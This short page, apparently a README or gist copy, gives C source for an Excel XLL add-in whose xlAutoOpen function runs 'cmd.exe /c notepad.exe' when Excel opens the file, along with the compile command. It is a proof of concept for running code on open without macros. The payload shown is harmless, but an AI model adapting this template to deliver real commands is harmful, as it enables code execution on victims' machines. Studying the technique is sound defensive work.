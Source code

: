 # Файл для запуска в exel без макроса

https://gist.github.com/projectboot/a0308688abcb1f318a0b00b33698e782

	// Compile with: cl.exe notepadXLL.c /LD /o notepad.xll
	#include <Windows.h>

	__declspec(dllexport) void __cdecl xlAutoOpen(void); 

	void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("cmd.exe /c notepad.exe", 1);
	}

	BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
					 )
	{
		switch (ul_reason_for_call)
		{
		case DLL_PROCESS_ATTACH:
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}

